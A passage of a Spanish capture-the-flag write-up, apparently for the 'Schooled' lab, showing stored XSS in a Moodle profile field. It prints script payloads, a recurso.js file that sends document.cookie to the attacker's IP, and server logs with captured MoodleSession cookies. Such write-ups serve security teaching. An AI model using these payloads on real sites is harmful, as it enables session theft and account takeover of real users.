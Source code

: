 Look forward to seeing you all soon."

Básicamente que el profe revisará nuestro perfil. Lo que me lleva a pensar que hay posibilidad de un ataque XSS ó Cross-site scripting; es una vulnerabilidad de seguridad que permite a un atacante inyectar en un sitio web código malicioso del lado del cliente. Este código es ejecutado por las víctimas y permite a los atacante eludir los controles de acceso y hacerse pasar por usuarios. Normalmente es código Javascript.

## Explotación

El objetivo es que cuando el profesor entre en nuestro perfil se cargará una instrucción que nosotras hayamos puesto.

Entro a nuestro perfil y me fijo en los inputs que se reflejan, los que se ven como por ejemplo el nombre y el apellido, voy a editar mi perfil y cambiar esos campos por inyecciones xss, probaré primero con:
```
<script>alert("probando")</script>
```
![XSS1]({{ 'assets/img/writeups/Schooled/xss1.png' | relative_url }}){: .center-image }

Se quita el script y sale el alert, normalmente con el alert sale una ventana emergente, pero que se haya quitado la parte de script es buena señal.

Observando un poco mejor el perfil veo justo el campo que ponía en el mensaje el profesor **MoodleNet profil**  e inyecto el payload en ese punto:

![XSS2]({{ 'assets/img/writeups/Schooled/xss2.png' | relative_url }}){: .center-image }

Funciona!. Hay una vulnerabilidad XSS en la web:

![FuncionaXSS]({{ 'assets/img/writeups/Schooled/xssfunciona.png' | relative_url }}){: .center-image }

Una vez que sabemos que es vulnerable lo próximo a lo que aspiramos es a conseguir robar la cookie de el usuario que vaya a visitar nuestro perfil, que es al que se le cargará la instrucción, en este caso el profesor de Matemáticas.

En vez del payload anterior en el campo MoodleNet profil voy a meter este:
```
<script>document.location=”http://MiIp/?cookie=”+document.cookie></script>
```
Antes de eso en mi terminal me abro un servidor con python:
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
No me llega nada.. Voy a probar con algo más simple:
``` 
<script src=”http://miIp/recurso.js"></script>
``` 
Por si funciona voy a creearme ya ese recurso.js:
``` js
var request = new XMLHttpRequest();
request.open(‘GET’, ‘http://MiIp/?cookie=’ + document.cookie);
request.send();
```
Y desde el servidor en escucha me llegan las peticiones con las cookies:
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.16 - - [05/Jun/2023 18:19:02] "GET /recurso.js HTTP/1.1" 200 -
10.10.14.16 - - [05/Jun/2023 18:25:11] "GET /recurso.js HTTP/1.1" 200 -
10.10.14.16 - - [05/Jun/2023 18:25:12] "GET /?cookie=MoodleSession=lvssjmm400o1qdrg5nruab46me HTTP/1.1" 200 -
10.10.10.234 - - [05/Jun/2023 18:26:48] "GET /recurso.js HTTP/1.1" 200 -
10.10.10.234 - - [05/Jun/2023 18:26:48] "GET /?cookie=MoodleSession=d1bi0s7elee7841nnetf2ks4uf HTTP/1.1" 200 -
```